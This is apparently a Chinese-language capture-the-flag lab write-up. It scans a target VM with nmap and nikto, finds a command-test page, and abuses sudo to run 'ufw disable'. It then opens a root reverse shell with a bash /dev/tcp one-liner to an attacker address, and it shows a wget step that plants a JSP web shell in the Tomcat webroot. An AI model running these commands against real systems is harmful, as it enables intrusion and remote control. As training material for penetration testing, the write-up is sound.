

51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录找到命令测试界面，注入非法命令，执行反弹shell，得到root权限，获得flag。

本篇使用工具nmap，dirb，nikto，nc。

<!-- more -->

# 使用命令

## 反弹shell

``` bash
bash -i >& /dev/tcp/[ip]/[port] 0>&1
#bash -i	产生一个交互式bash
#>& /dev/tcp/ip/port	建立TCP连接，并将标准输出和错误重定向到TCP连接
#0>&1	从TCP连接获取输入
```

关于这条命令的详细解释与拓展，这里有两篇文章写的特别好：

1. [Linux 反弹shell（二）反弹shell的本质](https://xz.aliyun.com/t/2549)
2. [浅析重定向与反弹Shell命令](https://www.freebuf.com/articles/system/153986.html)

另外一种方式：

``` bash
#开启python简易http服务器
python -m SimpleHTTPServer
#下载执行木马
wget "http://ip:port/shell.jsp" -O /var/lib/tomcat8/webapps/ROOT/shell.jsp
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，一个`8080`口的web服务，`nikto`挖掘`8080`端口web信息，找到一个测试界面：

``` bash
nmap -sV 192.168.1.121
nikto -host 192.168.1.121 -port 8080
```


2. 打开测试界面，按照提示输入`ls -l /tmp`测试，可以看到有反馈信息：


3. 扫描`/home/`扫出来了**bill**用户，查看一下**bill**用户目录，最下面的文件描述提示该用户可以sudo：


4. 本地ssh登录bill用户，测试sudo命令：

``` bash
ssh bill@localhost sudo -l
```



5. sudo关闭防火墙，否则后面反弹shell穿不透墙：

``` bash
ssh bill@localhost sudo ufw disable
```


6. 反弹一个root权限的shell给攻击机：

``` bash
bash -i >& /dev/tcp/192.168.1.114/4444 0>&1
```


7. 获取flag，不知道为啥shell里输入都double了，问题不大：


**解决方法：**

**I'm guessing both terminals had stty echo, so you probably needed to `Ctrl-Z` and `stty -echo` on your local terminal and `bg` to get back to the remote shell.**

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)